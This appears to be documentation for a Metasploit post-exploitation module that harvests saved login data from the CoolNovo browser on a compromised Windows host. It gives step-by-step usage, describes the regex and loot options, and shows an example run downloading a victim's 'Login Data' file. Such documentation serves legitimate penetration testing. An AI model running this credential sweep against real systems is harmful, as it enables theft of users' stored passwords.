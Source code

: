## Module Description

This post-exploitation module gathers artifacts found on coolnovorelated folders from end users systems.

The list of available artifcts are listed within the module and can be added at anytime. Each artifacts are categorised so that users can specify a category to look for.


## Verification Steps

1. Start MSF console
2. Get a Meterpreter session on a Windows system
3. use post/windows/gather/credentials/coolnovo
4. Set SESSION 1
5. enter 'run' to extract credentials from all applications


## Options
### REGEX

Users can set their own regular expressions so that it could be applied for the credential extraction. The default is set to ^password.

### VERBOSE

By default verbose is turned off. When turned on, the module will show information on files which aren't extracted and information that is not directly related to the artifact output.


### STORE_LOOT
This option is turned on by default and saves the stolen artifcats/files on the local machine,
this is required for also extracting credentials from files using regexp, JSON, XML, and SQLite queries.


### EXTRACT_DATA
This option is turned on by defalt and will perform the data extraction using the predefined regular expression. The 'Store loot' options must be turned on in order for this to take work.

## Example Run
  ```
msf6 post(windows/gather/credentials/coolnovo) > run 

[*] Filtering based on these selections:  
[*] ARTIFACTS: All
[*] STORE_LOOT: true
[*] EXTRACT_DATA: true

[*] Coolnovo's parent folder found
[*] Coolnovo's Login data file found
[*] Downloading C:\Users\IEUser\AppData\Local\MapleStudio\ChromePlus\User Data\Default\Login Data
[*] Coolnovo Login data downloaded
[+] File saved to:  /root/.msf4/loot/20210521113236_default_192.168.56.106_coolnovoLoginDa_081407.bin

[+] File with data saved:  /root/.msf4/loot/20210521113236_default_192.168.56.106_EXTRACTIONSLogin_425391.bin
[*] Coolnovo's parent folder found
[*] Coolnovo's Login data file found
[*] Downloading C:\Users\IEUser\AppData\Local\MapleStudio\ChromePlus\User Data\Default\Login Data
[*] Coolnovo Login data downloaded
[+] File saved to:  /root/.msf4/loot/20210521113236_default_192.168.56.106_coolnovoLoginDa_739589.bin

[+] File with data saved:  /root/.msf4/loot/20210521113237_default_192.168.56.106_EXTRACTIONSLogin_857688.bin
[*] PackRat credential sweep Completed
[*] Post module execution completed
  ```